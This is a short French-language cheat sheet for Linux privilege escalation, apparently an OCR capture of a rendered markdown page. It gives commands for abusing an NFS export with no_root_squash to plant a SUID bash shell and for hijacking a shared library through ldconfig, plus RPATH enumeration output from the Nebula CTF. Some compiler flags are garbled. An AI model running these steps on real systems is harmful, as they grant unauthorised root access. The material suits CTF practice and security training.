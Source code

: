 quand **no_root_squash** apparaît dans `/etc/exports`, le fichier est partageable est un utilisateur distant peut le monter.

```powershell
# On vérifier le nom du dossier à distance
showmount -e 10.10.10.10

# On crée un répertoire
mkdir /tmp/nfsdir  

# Et on le monte 
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
cd /tmp/nfsdir

# On copie le shell que l'on souhaite 
cp /bin/bash . 	

# On définie la permission SUID
chmod +s bash 	
```

## Librarys partagées

### ldconfig

Identifier les librarys partagées avec `ldd`

```powershell
$ ldd /opt/binary
    linux-vdso.so.1 (0x00007ffe961cd000)
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        
```

On crée library dans `/tmp` (on possède les droits d'écritures ici) et on active le chemin de fichiers.

```powershell
gcc '96Wall '96fPIC '96shared '96o vulnlib.so /tmp/vulnlib.c
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
/opt/binary
```

### RPATH

```powershell
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```
